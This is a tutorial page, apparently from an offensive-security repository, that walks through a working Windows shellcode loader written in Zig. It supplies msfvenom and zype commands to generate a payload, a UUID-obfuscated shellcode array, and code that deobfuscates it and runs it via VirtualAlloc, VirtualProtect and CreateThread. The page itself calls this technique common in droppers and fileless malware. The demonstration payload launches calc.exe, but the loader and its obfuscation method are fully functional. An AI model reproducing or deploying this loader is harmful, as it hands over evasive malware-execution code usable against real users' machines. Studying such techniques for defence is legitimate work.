 # Execute Via Shellcode

## TL;DR

[See the code example](https://github.com/CX330Blake/Black-Hat-Zig/tree/main/src/Payload-Execution/shellcode)

Executing payloads as shellcode involves storing the machine code directly in a
buffer, allocating executable memory, and then jumping to that buffer. The code
here uses the ZYPE tool to generate encrypted shellcode that is decoded at
runtime. After calling Windows APIs such as `VirtualAlloc` and `CreateThread`,
the program transfers control to the shellcode, effectively running the payload
without dropping any additional files. This direct execution model is common in
many droppers and fileless malware samples.

## What Is Shellcode?

Shellcode is a sequence of machine instructions, that are designed to be injected into a running program to execute a specific payload.
It often spawns a shell(`cmd.exe` or `powershell.exe` in windows, `/bin/sh` in linux).

## Code Walkthrough

The payload array and deobfuscation function is generated by [ZYPE](https://github.com/cx330blake/zype), you should go install that tool if you haven't. That will make generating encrypted/obfuscated payload to be much more easier.

Declaring all the constants:

```zig title="main.zig"
const std = @import("std");
const windows = std.os.windows;
const print = std.debug.print;

// Windows API types
const PVOID = *anyopaque;
const DWORD = windows.DWORD;
const SIZE_T = usize;
const PBYTE = [*]u8;

// Memory protection constants
const MEM_COMMIT = 0x1000;
const MEM_RESERVE = 0x2000;
const PAGE_READWRITE = 0x04;
const PAGE_EXECUTE_READWRITE = 0x40;

// Windows API functions
extern "kernel32" fn GetCurrentProcessId() callconv(.C) DWORD;
extern "kernel32" fn GetLastError() callconv(.C) DWORD;
extern "kernel32" fn VirtualAlloc(?PVOID, SIZE_T, DWORD, DWORD) callconv(.C) ?PVOID;
extern "kernel32" fn VirtualProtect(PVOID, SIZE_T, DWORD, *DWORD) callconv(.C) windows.BOOL;
extern "kernel32" fn CreateThread(?windows.HANDLE, SIZE_T, *const fn (?PVOID) callconv(.C) DWORD, ?PVOID, DWORD, ?*DWORD) callconv(.C) ?windows.HANDLE;
extern "kernel32" fn HeapFree(windows.HANDLE, DWORD, PVOID) callconv(.C) windows.BOOL;
extern "kernel32" fn GetProcessHeap() callconv(.C) windows.HANDLE;
```

UUID array is generated from the following command (for more information about zype: <https://github.com/cx330blake/zype>):

```powershell
1. msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o calc.bin
2. zype -f calc.bin -m uuid
```

This generates us 17 UUID strings and are stored in the `UUID_ARRAY`

```zig title="main.zig"
const UUID_ARRAY: [17][]const u8 = [_][]const u8{
    "E48348FC-E8F0-00C0-0000-415141505251",
    "D2314856-4865-528B-6048-8B5218488B52",
    "728B4820-4850-B70F-4A4A-4D31C94831C0",
    "7C613CAC-2C02-4120-C1C9-0D4101C1E2ED",
    "48514152-528B-8B20-423C-4801D08B8088",
    "48000000-C085-6774-4801-D0508B481844",
    "4920408B-D001-56E3-48FF-C9418B348848",
    "314DD601-48C9-C031-AC41-C1C90D4101C1",
    "F175E038-034C-244C-0845-39D175D85844",
    "4924408B-D001-4166-8B0C-48448B401C49",
    "8B41D001-8804-0148-D041-5841585E595A",
    "59415841-5A41-8348-EC20-4152FFE05841",
    "8B485A59-E912-FF57-FFFF-5D48BA010000",
    "00000000-4800-8D8D-0101-000041BA318B",
    "D5FF876F-E0BB-2A1D-0A41-BAA695BD9DFF",
    "C48348D5-3C28-7C06-0A80-FBE07505BB47",
    "6A6F7213-5900-8941-DAFF-D563616C6300",
};

const NUMBER_OF_ELEMENTS: usize = 17;
```

Manually parsing the UUID strings such that they match Windows `UuidFromStringA` behavior (converting each UUID string into a 16-byte binary representation, removing hyphens, correcting endianness)

```zig title="main.zig"
fn parseUuidManual(uuid_str: []const u8, buffer: []u8) !void {
    if (buffer.len < 16) return error.BufferTooSmall;

    // UUID format: XXXXXXXX-XXXX-XXXX-XXXX-XXXXXXXXXXXX
    // Split into parts: [8]-[4]-[4]-[4]-[12] = 32 hex chars + 4 hyphens

    var clean_hex = std.ArrayList(u8).init(std.heap.page_allocator);
    defer clean_hex.deinit();

    // Remove hyphens to get 32 hex characters
    for (uuid_str) |c| {
        if (c != '-') {
            try clean_hex.append(c);
        }
    }

    if (clean_hex.items.len != 32) return error.InvalidUuidLength;

    // Parse UUID components with correct endianness
    // Windows UUID structure (matches GUID):
    // - First 4 bytes (data1): Little-endian 32-bit
    // - Next 2 bytes (data2): Little-endian 16-bit
    // - Next 2 bytes (data3): Little-endian 16-bit
    // - Last 8 bytes (data4): Big-endian bytes

    const hex_chars = clean_hex.items;

    // Data1 (4 bytes, little-endian)
    const data1 = try std.fmt.parseInt(u32, hex_chars[0..8], 16);
    buffer[0] = @intCast(data1 & 0xFF);
    buffer[1] = @intCast((data1 >> 8) & 0xFF);
    buffer[2] = @intCast((data1 >> 16) & 0xFF);
    buffer[3] = @intCast((data1 >> 24) & 0xFF);

    // Data2 (2 bytes, little-endian)
    const data2 = try std.fmt.parseInt(u16, hex_chars[8..12], 16);
    buffer[4] = @intCast(data2 & 0xFF);
    buffer[5] = @intCast((data2 >> 8) & 0xFF);

    // Data3 (2 bytes, little-endian)
    const data3 = try std.fmt.parseInt(u16, hex_chars[12..16], 16);
    buffer[6] = @intCast(data3 & 0xFF);
    buffer[7] = @intCast((data3 >> 8) & 0xFF);

    // Data4 (8 bytes, big-endian - byte by byte)
    for (0..8) |i| {
        const hex_pair = hex_chars[16 + i * 2 .. 16 + i * 2 + 2];
        buffer[8 + i] = try std.fmt.parseInt(u8, hex_pair, 16);
    }
}
```

This functions iterates over the UUID array to reconstruct the original shell. It allocates a buffer to hold the deobfuscated payload (17 UUIDs x 16 bytes = 272 bytes)

```zig title="main.zig"
fn uuidDeobfuscation(uuid_array: []const []const u8, allocator: std.mem.Allocator) ![]u8 {
    const buffer_size = uuid_array.len * 16;
    const buffer = try allocator.alloc(u8, buffer_size);

    for (uuid_array, 0..) |uuid_str, i| {
        const offset = i * 16;
        parseUuidManual(uuid_str, buffer[offset .. offset + 16]) catch |err| {
            std.debug.print("[!] Failed to parse UUID[{}]: \"{s}\" - Error: {}\n", .{ i, uuid_str, err });
            allocator.free(buffer);
            return err;
        };
    }

    return buffer;
}
```

Steps to follow in the main fucntion:

- Deobfuscating the UUID array into a shellcode buffer

    ```zig title="main.zig"
    const p_deobfuscated_payload = uuidDeobfuscation(&UUID_ARRAY, allocator) catch |err| {
        print("[!] uuidDeobfuscation Failed With Error: {}\n", .{err});
        std.process.exit(1);
    };
    defer allocator.free(p_deobfuscated_payload);

    print("[+] DONE !\n", .{});

    const s_deobfuscated_size = p_deobfuscated_payload.len;
    print("[i] Deobfuscated Payload At : 0x{x} Of Size : {d} \n", .{ @intFromPtr(p_deobfuscated_payload.ptr), s_deobfuscated_size });

    waitForEnter("[#] Press <Enter> To Allocate ... ");
    ```

- Allocating memory with `VirtualAlloc` and copying the deobfuscated shell code to the allocated memory

    ```zig title="main.zig"
    const p_shellcode_address = VirtualAlloc(null, s_deobfuscated_size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE) orelse {
        print("[!] VirtualAlloc Failed With Error : {d} \n", .{GetLastError()});
        std.process.exit(1);
    };

    print("[i] Allocated Memory At : 0x{x} \n", .{@intFromPtr(p_shellcode_address)});

    waitForEnter("[#] Press <Enter> To Write Payload ... ");

    // Copy the payload to allocated memory
    @memcpy(@as([*]u8, @ptrCast(p_shellcode_address))[0..s_deobfuscated_size], p_deobfuscated_payload);

    // Clear the original payload buffer
    @memset(@as([*]u8, @ptrCast(p_deobfuscated_payload.ptr))[0..s_deobfuscated_size], 0);
    ```

- Changing memory protection to executable using `VirtualProtect`

    ```zig title="main.zig"
    var dw_old_protection: DWORD = 0;
    if (VirtualProtect(p_shellcode_address, s_deobfuscated_size, PAGE_EXECUTE_READWRITE, &dw_old_protection) == 0) {
        print("[!] VirtualProtect Failed With Error : {d} \n", .{GetLastError()});
        std.process.exit(1);
    }

    waitForEnter("[#] Press <Enter> To Run ... ");
    ```

- Creating a new thread to execute shell code using `CreateThread`

    ```zig title="main.zig"
    const thread_handle = CreateThread(null, 0, @ptrCast(p_shellcode_address), null, 0, null) orelse {
        print("[!] CreateThread Failed With Error : {d} \n", .{GetLastError()});
        std.process.exit(1);
    };

    _ = thread_handle; // Suppress unused variable warning

    print("[+] Calculator should launch now!\n", .{});
    waitForEnter("[#] Press <Enter> To Quit ... "); // Pause the execution.

    return;
    ```

**NOTE:** If we don't use `waitForEnter()` here, the main thread might have high possibility to exit before the shellcode being executed. So here we use that function to pause the execution. In practice, we should use `WaitForSingleObject()` function from Windows API to wait until the new thread to finish or the thread it timed out. So that the main thread will not exit before the shellcode execution.

```zig title="main.zig"
// Wait for Enter key by reading entire line
fn waitForEnter(message: []const u8) void {
    print("{s}", .{message});
    var buffer: [256]u8 = undefined;
    _ = std.io.getStdIn().reader().readUntilDelimiterOrEof(buffer[0..], '\n') catch {};
}
```
